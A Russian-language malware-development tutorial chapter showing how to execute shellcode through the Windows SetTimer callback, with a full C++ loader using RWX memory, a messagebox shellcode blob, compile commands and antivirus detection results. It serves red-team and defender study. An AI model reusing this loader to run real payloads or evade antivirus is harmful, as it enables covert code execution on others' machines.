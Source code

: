 \newpage
\subsection{44. трюк разработки вредоносного ПО. Запуск шеллкода через SetTimer. Простой пример на C++.}

﷽

![трюк](./images/98/2023-06-04_13-37.png){width="80%"}      

Эта статья является результатом моего собственного исследования следующего интересного трюка: запуск шеллкода через функцию `SetTimer`.      

### SetTimer

Функция `SetTimer` является частью Windows API. Она используется для создания таймера с заданным временем ожидания.     

Вот её базовый синтаксис:    

```cpp
UINT_PTR SetTimer(
  HWND      hWnd,
  UINT_PTR  nIDEvent,
  UINT      uElapse,
  TIMERPROC lpTimerFunc
);
```

Где:

- `hWnd`: Дескриптор окна, связанного с таймером. Это окно должно принадлежать вызывающему потоку. Если передан `NULL` вместе с `nIDEvent` существующего таймера, старый таймер будет заменён новым.      
- `nIDEvent`: Идентификатор таймера (ненулевой). Если `hWnd` равно `NULL`, и `nIDEvent` не соответствует существующему таймеру, он игнорируется, и создаётся новый ID таймера. Если `hWnd` не равно `NULL`, и указанное окно уже имеет таймер с `nIDEvent`, то старый таймер заменяется новым.      
- `uElapse`: Время ожидания в миллисекундах.      
- `lpTimerFunc`: Указатель на функцию, которая вызывается по истечении времени ожидания. Если этот параметр равен `NULL`, система отправляет сообщение `WM_TIMER` в очередь приложения. Это сообщение обрабатывается оконной процедурой.      

### практический пример

Итак, в чём суть трюка? Просто посмотрите на этот код (`hack.c`):      

```cpp
/*
 * hack.cpp - запуск шеллкода через SetTimer. Реализация на C++
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/04/malware-tricks-31.html
*/
#include <stdio.h>
#include <windows.h>

int main(int argc, char* argv[]) {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  PVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  UINT_PTR dummy = 0;
  MSG msg;

  SetTimer(NULL, dummy, NULL, (TIMERPROC)mem);
  GetMessageA(&msg, NULL, 0, 0);
  DispatchMessageA(&msg);

  return 0;
}
```

Как можно заметить, этот код пытается выполнить шеллкод, используя API `SetTimer` Windows, передавая в него указатель на функцию `(TIMERPROC)`, которая будет вызвана по истечении таймера.     

Как обычно, для простоты я использовал полезную нагрузку с messagebox `meow-meow`:      

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### демонстрация

Давайте посмотрим всё в действии. Компилируем наш "вредонос":     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![трюк](./images/98/2023-06-04_13-38.png){width="80%"}      

Запускаем на машине жертвы:     

```powershell
.\hack.exe
```

![трюк](./images/98/2023-06-04_13-59.png){width="80%"}      

Как можно заметить, всё сработало идеально! =^..^=

Давайте загрузим `hack.exe` на VirusTotal:       

![трюк](./images/98/2023-06-04_14-01.png){width="80%"}      

**Итак, 19 из 71 антивирусных движков определили наш файл как вредоносный.**      

[https://www.virustotal.com/gui/file/6b418cb08b87c07246170577503e9ef2e98f39e44afa9b53a0747fa9f5ed524e/detection](https://www.virustotal.com/gui/file/6b418cb08b87c07246170577503e9ef2e98f39e44afa9b53a0747fa9f5ed524e/detection)       

Но, похоже, в нашем "грязном" PoC-коде есть проблема.      

Функция `SetTimer` требует установки параметра `uElapse`, который представляет собой значение времени ожидания в миллисекундах. Если установить его в `NULL` или `0`, функция не создаст таймер. Поэтому, если мы хотим выполнить шеллкод немедленно, нам нужно установить `uElapse` в `1`. Например так:      

```cpp
SetTimer(NULL, dummy, 1, (TIMERPROC)mem);  // Устанавливаем uElapse в 1
while (GetMessageA(&msg, NULL, 0, 0)) {    // Используем цикл while, чтобы 
                                           // поддерживать обработку сообщений
  DispatchMessageA(&msg);
}
```

Этот код создаст таймер, который сработает практически мгновенно и вызовет наш шеллкод в качестве функции обратного вызова. Конечно, стоит отметить, что такая техника может быть распознана антивирусами как вредоносная из-за аномального поведения выполнения кода через таймерный callback.        

Я пока не встречал этот трюк в реальных вредоносных программах и APT-атаках. Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике разработки вредоносного ПО и добавит оружие в арсенал красных команд.      

[SetTimer](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-settimer)      
[Malware dev tricks. Run shellcode via EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html)        
[Classic DLL injection into the process. Simple C++ malware](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)        
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-06-04-malware-tricks-31)           
